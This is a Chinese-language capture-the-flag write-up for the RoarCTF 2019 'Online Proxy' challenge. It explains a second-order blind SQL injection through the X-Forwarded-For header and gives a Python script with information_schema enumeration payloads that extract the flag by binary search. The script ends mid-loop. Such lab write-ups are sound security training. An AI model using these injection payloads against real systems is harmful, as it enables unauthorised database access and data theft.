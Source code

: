 ## [RoarCTF 2019]Online Proxy

结合题目提示

> 为了保障您的使用体验，我们可能收集您的使用信息，这些信息只会被用于提升我们的服务，请您放心。

```html
<!-- Debug Info: 
 Duration: 0.056782960891724 s 
 Current Ip: 10.244.80.206  -->
```

大概猜测是将你的ip放进了数据库

也就是`X-Forwarded-For`注入

知道了这个就很好做了，随便偷个脚本吧（不想写。。

```python
# coding:utf-8
import requests
import time
url = 'http://node4.buuoj.cn:29111/'
 
res = ''
for i in range(1,200):
    print(i)
    left = 31#二分法快速查找关键字
    right = 127
    mid = left + ((right - left)>>1)
    while left < right:#盲注，利用substr将查询到的字符切割，用ascii函数转化为ascii码，利用二分法的中间值比大小直到查询成功
        #payload = "0' or (ascii(substr((select group_concat(schema_name) from information_schema.schemata),{},1))>{}) or '0".format(i,mid)
        #payload  = "0' or (ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema = 'F4l9_D4t4B45e'),{},1))>{}) or '0".format(i,mid)
        #payload  = "0' or (ascii(substr((select group_concat(column_name) from information_schema.columns where table_name = 'F4l9_t4b1e'),{},1))>{}) or '0".format(i,mid)
        payload = "0' or (ascii(substr((select group_concat(F4l9_C01uMn) from F4l9_D4t4B45e.F4l9_t4b1e),{},1))>{}) or '0".format(i,mid)
        headers = {#第一次请求，是用我们的payload，防止cookie被刷新因此我们头部请求的时候必须要带上cookie
                    'Cookie': 'track_uuid=6e17fe5e-140c-4138-dea6-d197aa6214e3',#带cookie防止刷新重置
                    'X-Forwarded-For': payload
                    }
        r = requests.post(url = url, headers = headers)#头文件传输方法
 
        payload = '111'
        headers = {#后面就是相同cookie的二次三次输入，只为了执行第一次payload的查询语句
                    'Cookie': 'track_uuid=6e17fe5e-140c-4138-dea6-d197aa6214e3',
                    'X-Forwarded-For': payload
                    }
        r = requests.post(url = url, headers = headers)
 
        payload = '111'
        headers = {
                    'Cookie': 'track_uuid=6e17fe5e-140c-4138-dea6-d197aa6214e3',
                    'X-Forwarded-For': payload
                    }
        r = requests.post(url = url, headers = headers)
 
 
        if r.status_code == 429:#buu特色
            print('too fast')
            time.sleep(2)
        if 'Last Ip: 1'  in r.text:#payload语句用的都是大于，如果大于中值，则中值加一赋给最小值
            left = mid + 1
        elif 'Last Ip: 1' not in r.text:#不小于则中值给最大值
```